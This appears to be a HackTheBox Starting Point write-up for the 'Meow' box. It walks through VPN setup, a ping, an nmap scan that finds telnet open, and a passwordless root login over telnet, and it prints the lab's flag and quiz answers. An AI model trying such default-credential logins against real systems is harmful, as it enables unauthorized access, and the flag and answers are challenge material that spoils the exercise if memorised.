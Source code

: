 ```yaml
---
title: "HackTheBox: Meow"
description:
date: 2022-02-18T20:38:56+02:00
image: cover.png
math: 
license: 
hidden: false
comments: false
draft: false
categories:
    - HTB
    - Writeup
    - Very Easy
    - Starting Point
    - Linux
    - Network
    - Account Misconfiguration

---
```

## Intro
This is a Very Easy machine from the Starting Point section on HackTheBox. It is meant to be an introductory box, to fully clear it, in addition to getting flags, we will also need to answer some questions.

## Tasks

### Task 1: What does the acronym `VM` stand for?
```
Virtual Machine
```

### Task 2: What tool do we use to interact with the operating system in order to start our VPN connection?
```
Terminal
```

### Task 3: What service do we use to form our VPN connection?
```
OpenVPN
```

### Task 4: What is the abreviated name for a tunnel interface in the output of your VPN boot-up sequence output?
For this, we should start our VPN connection: `sudo openvpn our_openvpn_file_here.ovpn`.

We get a lot of output, but the relevant part for us is this part:
```bash
Fri Feb 18 21:38:17 2022 TUN/TAP device tun0 opened
Fri Feb 18 21:38:17 2022 TUN/TAP TX queue length set to 100
Fri Feb 18 21:38:17 2022 /sbin/ip link set dev tun0 up mtu 1500
Fri Feb 18 21:38:17 2022 /sbin/ip addr add dev tun0 10.10.15.16/23 broadcast 10.10.15.255
Fri Feb 18 21:38:17 2022 /sbin/ip -6 addr add dead:beef:2::110e/64 dev tun0
Fri Feb 18 21:38:17 2022 /sbin/ip route add 10.10.10.0/23 via 10.10.14.1
Fri Feb 18 21:38:17 2022 /sbin/ip route add 10.129.0.0/16 via 10.10.14.1
Fri Feb 18 21:38:17 2022 add_route_ipv6(dead:beef::/64 -> dead:beef:2::1 metric -1) dev tun0
Fri Feb 18 21:38:17 2022 /sbin/ip -6 route add dead:beef::/64 dev tun0 
```
Here we can identify the tunnel interface/device as tun0. However, we need the 'abreviated name for a tunnel interface', not our specific one.

Thus, the answer is simply:
```
tun
```

### Task 5: What tool do we use to test our connection to the target?
```
ping
```

We might aswell just go and ping the box itself:
```bash
weaponizedpeach@Akatosh:~$ ping 10.129.255.195
PING 10.129.255.195 (10.129.255.195) 56(84) bytes of data.
64 bytes from 10.129.255.195: icmp_seq=18 ttl=63 time=48.8 ms
64 bytes from 10.129.255.195: icmp_seq=19 ttl=63 time=48.6 ms
64 bytes from 10.129.255.195: icmp_seq=20 ttl=63 time=48.6 ms
64 bytes from 10.129.255.195: icmp_seq=21 ttl=63 time=49.1 ms
64 bytes from 10.129.255.195: icmp_seq=22 ttl=63 time=48.6 ms
64 bytes from 10.129.255.195: icmp_seq=23 ttl=63 time=48.8 ms
^C
--- 10.129.255.195 ping statistics ---
23 packets transmitted, 6 received, 73.913% packet loss, time 22720ms
rtt min/avg/max/mdev = 48.558/48.745/49.101/0.194 ms
weaponizedpeach@Akatosh:~$
```

### Task 6: What is the name of the tool we use to scan the target's ports?
```
nmap
```

Let's go and run a simple nmap scan:

```bash
weaponizedpeach@Akatosh:~$ nmap 10.129.255.195
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-18 21:47 EET
Nmap scan report for 10.129.255.195
Host is up (0.048s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
23/tcp open  telnet

Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
weaponizedpeach@Akatosh:~$
```

### Task 7: What service do we identify on port 23/tcp during our scans? 
Nmap already identified the service for us:
```
telnet
```

### Task 8: What username ultimately works with the remote management login prompt for the target?
For this we will need to establish a telnet connection to the machine: `telnet MACHINE_IP`

After a short period of time we are welcomed by a login screen:

```bash
Trying 10.129.255.195...
Connected to 10.129.255.195.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login:
```

Since this is a introductory box, let's just try `root` as the login.

```
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)
                                                                  
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
                                                           
System information as of Fri 18 Feb 2022 08:04:01 PM UTC
...
...
...
Last login: Fri Feb 18 20:01:31 UTC 2022 on pts/0
root@Meow:~#
```

Success!

Thus, the answer to the question is:
```
root
```

### Submit root flag
Since we have root access, this should be easy.
```bash
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~#
```

And there's our flag. The question wants the answer in the form `HTB{_flag_}`

Let's try: `HTB{b40abdfe23665f766f9c61ecba8a4c19}`

![Meow: Pwned](pwned.png)

## Outro

Although I am used to harder boxes, I was still interested what the Starting Point machines had to offer. I am glad that newcomers to HTB (and likely CTFs in general) have a place to ease into machines like this, rather than just diving into the deep end. I plan to make a write-up for each of the Starting Point machines.